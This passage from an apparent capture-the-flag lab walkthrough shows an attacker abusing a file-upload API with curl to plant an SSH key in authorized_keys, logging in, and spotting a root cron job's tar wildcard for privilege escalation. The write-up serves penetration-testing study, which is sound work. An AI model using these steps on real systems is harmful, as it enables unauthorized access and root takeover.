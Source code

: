   

We encounter a filter, but since we can write the file with any name, the filter can easily be traversed.

  

kali@kali:~$ mv id_alfredo.pub id_alfredo.txt

kali@kali:~$ curl -F filename="/home/alfredo/.ssh/authorized_keys" -F file=@id_alfredo.txt http://192.168.56.101:33414/file-upload

{"message":"File successfully uploaded /home/alfredo/.ssh/authorized_keys"}

  

Now we attempt to connect using the key we generated:

  

kali@kali:~$ ssh -p 25022 -i id_alfredo alfredo@192.168.56.101

The authenticity of host '[192.168.56.101]:25022 ([192.168.56.101]:25022)' can't be established.

ED25519 key fingerprint is SHA256:jDDyaRYIBM6N9EgPcrE3LAfFMJbKpmZiPRMimrzmMXU.

This key is not known by any other names

Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '[192.168.56.101]:25022' (ED25519) to the list of known hosts.

Last login: Wed Apr 27 21:08:46 2022

  

[alfredo@amaterasu ~]$ cat local.txt 

  

Privilege Escalation

  

After thorough enumeration we identify a script that is running as root located in /etc/crontab:

  

[alfredo@amaterasu ~]$ cat /etc/crontab

(... snip ...)

  

5 * * * * root /usr/local/bin/backup-flask.sh

[alfredo@amaterasu ~]$ cat /usr/local/bin/backup-flask.sh 

#!/bin/sh

export PATH="/home/alfredo/restapi:$PATH"

cd /home/alfredo/restapi

tar czf /tmp/flask.tar.gz *

  

The * in the tar command will server as an entry point for a technique called BASH Gobbling.

  